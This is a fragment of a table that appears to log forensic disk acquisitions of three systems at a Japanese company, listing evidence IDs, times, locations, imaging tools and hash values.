| AD01       | E-001  | 2025-06-02 13:00    | 2025-06-02 15:25    | 株式会社ジェーピーサート 本社サーバールーム   | Tableau TD3、X-Ways Forensics 21.0 | 0a5e2b8a3c7f2b7b6fb3f4b72f5f0a6c7d2d1c6a4a2b1c0d9e8f7a6b5c4d3e2f |
| FS01       | E-002  | 2025-06-02 14:30    | 2025-06-02 18:10    | 株式会社ジェーピーサート 本社サーバールーム   | Tableau TD3、X-Ways Forensics 21.0 | 1b6f3c9d4e8a2b0c5f7e9d1a3c4b6e8f0a2d4c6b8e0f1a3c5d7e9f1a2b3c4d5e |
| CLIENT-001 | E-003  | 2025-06-03 10:30    | 2025-06-03 11:20    | 株式会社ジェーピーサート 情報システム部執務室 | Tableau TD3、X-Ways Forensics 21.0 | 2c7a4d0e5f9b3c1d6e8f0a2b4c6d8e0f1a3b5c7d9e1f3a5b7c9d1e3f5a7b9c1d |
